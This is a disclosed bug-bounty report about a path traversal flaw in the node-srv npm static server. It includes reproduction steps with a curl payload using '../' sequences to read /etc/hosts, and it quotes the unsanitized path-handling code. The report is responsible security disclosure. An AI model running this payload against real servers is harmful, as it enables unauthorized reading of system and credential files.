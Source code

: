 # [node-srv] Path Traversal allows to read arbitrary files from remote server

## Report Details
- **Report ID**: 309124
- **URL**: https://hackerone.com/reports/309124
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-01-25T20:00:51.494Z
- **Disclosed**: 2018-03-07T15:33:00.365Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

**node-srv** contains Path Traversal vulnerability, which allows malicious user to read content of any file with known path.

**Module:** 

Simple static node.js server. Supports Heroku and Grunt.js
https://www.npmjs.com/package/node-srv


**Description**

```node-srv``` does not sanitize path in the correct way, so ```curl``` can be used to retrieve content of any file from the remote server.



## Steps To Reproduce:

- install ```node-srv```

```
$ npm install node-srv
```

- create simple server:

```javascript
//Require module 
var Server = require('node-srv');

// Start server 
var srv = new Server({
    port: 8080,
    root: './',
    logs: true
}, function () {
    console.log('Server stopped');
});
```

- run server:

```
$ node app.js
```

- visit ```http://127.0.0.1:8080``` to verify if everything is fine.

- now, run following ```curl``` command (please adjust numbers of ../ to your system):

```
$ curl -v --path-as-is http://127.0.0.1:8080/node_modules/../../../../../etc/hosts
```

You should see the content of ```/etc/hosts``` file:

{F257357}


The problem is that url read from the user is not sanitize in any way against classic ```../``` path traversal payload:


```javascript
return new Promise((function(_this) {
        return function(resolve, reject) {
          var uri;
          uri = url.parse(req.url);
          return resolve(uri.pathname);
        };
      })(this)).then((function(_this) {
        return function(pathname) {
          filePath = pathname;
          filePath = filePath.replace(/\/$/, "/" + _this.options.index);
          filePath = filePath.replace(/^\//, "");
          filePath = path.resolve(process.cwd(), _this.options.root || './', filePath);
          return _this.processRequest(res, filePath);
        };
```



## Supporting Material/References:

Configuration I've used to find this vulnerability:

- macOS HighSierra 10.13.3
- node 8.9.3
- npm 5.5.1
- curl 7.54.0

## Wrap up

I hope this report will help to keep Node ecosystem more safe. If you have any questions about any details of this finding, please let me know in comment.

Thank you

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability allows malicious user to read content of any file on the server, which leads to data breach or other attacks.

## Attachments
- 1.png
